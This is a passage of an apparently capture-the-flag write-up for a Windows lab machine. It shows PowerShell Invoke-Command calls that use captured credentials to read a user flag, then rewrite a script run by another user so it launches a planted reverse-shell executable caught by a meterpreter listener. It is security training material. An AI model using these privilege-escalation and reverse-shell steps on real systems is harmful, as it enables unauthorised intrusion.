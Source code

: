 Result of GCI shows me the user flag on currentuser\desktop and also a .ps1 file.

For when running invoke-command, 'get-content' did not work, I had to use cat.

```
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $creds -command {cat C:\users\user2\desktop\user.txt}

Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $creds -command {cat C:\users\user2\desktop\wm.ps1}
```

User flag owned.

For wm.ps1.

![](<../../.gitbook/assets/image (25) (1) (1).png>)

The script apperas to invoke a command back on acute-pc01 of get-volume under the credentials of user4.

I can edit this script to remove the get-volume to use something else to escalate my privileges. I already have my reverse.exe on PC01 that I can test the credentials of user4 but also check jmorgan's privileges if successful.

I initially attempted to recreate the .ps1 file on my VM and change the contents to remove get-volume and run cmd.exe to call our reverse.exe but I did not have any luck with using my http download methods such as curl, wget etc.. to actually get it onto ATSSERVER.

In the end I had to research how to change the contents of the file on the fly. This could be done using the following cmdlet.

```
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage  -credential $cred  -ScriptBlock{((cat "c:\users\user2\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','cmd.exe /c c:\utils\reverse.exe') | set-content -path c:\users\imonks\Desktop\wm.ps1}
```

Now this script will call the reverse shell, I run my meterpreter listener again and call the script using invoke-command.

![](<../../.gitbook/assets/image (10) (1) (1).png>)
